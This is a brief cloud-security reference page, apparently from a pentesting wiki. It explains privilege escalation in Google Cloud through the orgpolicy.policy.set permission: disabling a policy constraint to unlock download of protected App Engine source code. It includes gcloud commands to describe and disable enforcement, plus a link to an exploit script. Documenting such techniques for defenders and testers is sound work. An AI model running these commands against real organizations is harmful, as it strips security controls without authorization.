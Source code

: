 # GCP - Orgpolicy Privesc

## orgpolicy

### `orgpolicy.policy.set`

An attacker leveraging **orgpolicy.policy.set** can manipulate organizational policies, which will allow him to remove certain restrictions impeding specific operations. For instance, the constraint **appengine.disableCodeDownload** usually blocks downloading of App Engine source code. However, by using **orgpolicy.policy.set**, an attacker can deactivate this constraint, thereby gaining access to download the source code, despite it initially being protected.

```bash
# Get info
gcloud resource-manager org-policies describe <org-policy> [--folder <id> | --organization <id> | --project <id>]

# Disable
gcloud resource-manager org-policies disable-enforce <org-policy> [--folder <id> | --organization <id> | --project <id>]
```

A python script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/orgpolicy.policy.set.py).

## References

- [https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/](https://rhinosecuritylabs.com/cloud-security/privilege-escalation-google-cloud-platform-part-2/)

